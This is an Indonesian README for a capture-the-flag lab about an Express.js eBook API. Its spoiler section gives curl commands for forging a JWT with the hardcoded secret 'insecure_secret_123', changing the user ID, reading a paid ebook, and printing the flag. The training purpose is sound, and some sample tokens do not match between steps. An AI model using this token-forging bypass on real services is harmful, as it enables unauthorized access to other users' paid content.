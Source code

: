 # API eBook Premium - Akses Buku Berbayar via IDOR

> Web CTF Challenge | by [ctflabs-id](https://github.com/ctflabs-id)


---

## 📖 Scenario

Anda adalah pentester yang ditugaskan mengaudit API layanan eBook premium. Sistem ini menggunakan Express.js dengan autentikasi JWT. Meskipun memerlukan login, terdapat kerentanan dimana user bisa mengakses eBook berbayar milik user lain dengan memodifikasi claim JWT.

---

## 🎯 Challenge Overview
**Target:** `http://api-ebook-premium.local:4000`<br>
**Vulnerability:** Insecure Direct Object Reference (IDOR) via JWT Claim Manipulation<br>
**Objective:** Dapatkan akses ke eBook premium dengan ID 1337 dan ekstrak flag dari kontennya.<br>
**Difficulty:** ⭐⭐⭐☆☆ (Intermediate)

---
## 🛠️ Setup Instructions

Prerequisites:

    Node.js v16+
    MongoDB
    JWT tool (optional)

Langkah-langkah:

  1. Clone repository ini
```bash
git clone https://github.com/ctflabs-id/API-eBook-Premium.git
cd API-eBook-Premium
```
  2. Install dependencies
```bash
npm install express jsonwebtoken mongoose body-parser
```
  3. Pastikan MongoDB Berjalan
  4. Start Server
```bash
node index.js
```
  5. Server akan berjalan di http://localhost:4000

---

## 💡 Hints
    🔑 Dapatkan token JWT valid terlebih dahulu via endpoint /login
    🔍 Gunakan tools seperti jwt.io untuk inspeksi/decode token
    ✏️ Modifikasi claim userId pada JWT untuk mendapatkan akses ke eBook premium
    📌 eBook target memiliki ID 1337
    🚩 Flag ada dalam content eBook premium

---

## 🎓 Tujuan Tantangan Ini
  1. Memahami kerentanan IDOR pada sistem berbasis JWT
  2. Belajar teknik manipulasi claim JWT
  3. Memahami pentingnya validasi kepemilikan resource di server
  4. Praktik eksploitasi authorization flaw pada REST API

---

## ⚠️ Disclaimer

Challenge ini dibuat hanya untuk edukasi dan simulasi keamanan siber. Jangan gunakan teknik serupa terhadap sistem yang tidak kamu miliki atau tidak diizinkan.

---
<details><summary><h2>🏆 Solusi yang Diharapkan - (Spoiler Allert)</h2></summary>

Peserta harus:
    1. Dapatkan Token JWT Awal<br>
    ```bash
    curl -X POST http://localhost:4000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user","password":"password123"}'
    ```
    Contoh Response:
    ```json
    {
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEwMDEsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.4j5XW7zQl2HJYwLw7QXn2v8m6d9QkZcX6jK7vL1J3Ek"
}
    ```
    2. Langkah 2: Decode Token di jwt.io
      1. Buka https://jwt.io atau https://10015.io/tools/jwt-encoder-decoder
      2. Paste token yang didapat:
      ```
      eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEwMDEsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.4j5XW7zQl2HJYwLw7QXn2v8m6d9QkZcX6jK7vL1J3Ek
      ```
      3. Lihat payload:
      ```json
      {
  "userId": 1001,
  "role": "user",
  "iat": 1719429400,
  "exp": 1719433000
}
      ```
   3. Ubah userId dari 1001 menjadi 9999 (pemilik eBook premium)
      1. Ubah userId dari 1001 menjadi 9999 (pemilik eBook premium)
      2. Gunakan secret key insecure_secret_123 untuk signature baru
      3. Hasilkan token baru, contoh
      ```
      eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzUwODU5MTM5LCJleHAiOjE3NTA4NjI3Mzl9.Y9OyLkfj5kBkgqqthRIcEU-LS1WR3f_EoUXk9qe3H1E
      ```
    4. Akses eBook Premium
    Gunakan token yang sudah dimodifikasi:
    ```bash
    curl http://localhost:4000/api/ebooks/1337 \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.1qZ3vVJkXoQ2wY8hN7Rt6cTm1x9fKsLp5UqSdW0bO4Y"
    ```
    Response Sukses:
    ```bash
    {
  "title": "eBook Premium",
  "content": "CTF_FLAG{JWT_IDOR_Pr3v3nt1on_1s_Key}",
  "price": 50000
}
    ```
Penjelasan Kerentanan

    IDOR: Endpoint tidak memverifikasi kepemilikan resource
    JWT Abuse: Server hanya memverifikasi signature, tidak memeriksa konsistensi data
    Solusi Pengamanan:
        Verifikasi ownership resource di server
        Gunakan UUID bukan sequential ID
        Implementasi role-based access control
        
</details>

---

## 🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/Perpustakaan-Hantu-CTF
## 🧠 Maintained by:
```
GitHub: @ctflabs-id
Website: ctflabsid.my.id
```




